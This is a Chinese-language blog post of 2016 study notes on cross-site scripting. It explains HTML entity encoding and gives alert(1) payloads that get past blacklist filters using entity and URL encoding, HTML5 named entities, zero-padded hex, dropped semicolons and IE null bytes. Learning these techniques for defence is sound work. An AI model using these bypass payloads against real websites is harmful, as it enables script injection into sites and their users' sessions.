 ```yaml
---
title: XSS学习笔记1
time: 2016.02.1 17:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结
    
---
```

### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
	以下两个表示相同：

		<img src="http://www.example.com"> 
		<img src="ht&#x74;p&#x3a;//www.example.com">
	下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

		<img src&#x3d;"http://www.example.com"> 
		<img s&#x72;c="http://www.example.com">
		
- HTML实体编码有两种，10进制与16进制

{% highlight HTML %}
如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
{% endhighlight %} 

- 比如有一个输出点：

		<img src="[代码]"> 
	且过滤了script < > / \ http: 以及各种危险字符。
	
	那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
	构造代码：
		
		<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
	原代码：
		
		<img src="x" onerror="alert(1)">
	这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

	之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：
	
		',alert(1)' ＝＝＝》
		html16进制编码 &#x27,alert(1)+&#x27
		＝》》url编码%26%23x27,alert(1)%2b%26%23x27
	说明：url编码用于绕过&＃的过滤

---
### 黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
{% highlight html %}
&colon; => [冒号]
&NewLine; => [换行]
case: <a href="javasc&NewLine;ript&colon;alert(1)">click</a>
{% endhighlight %}

2. Hex编码常规变异(增添多个0)
	
		对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
		
		对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）
		对于<可编码为&#x3c
--- 
### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


	

- Fuzzing
![image](http://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
3. 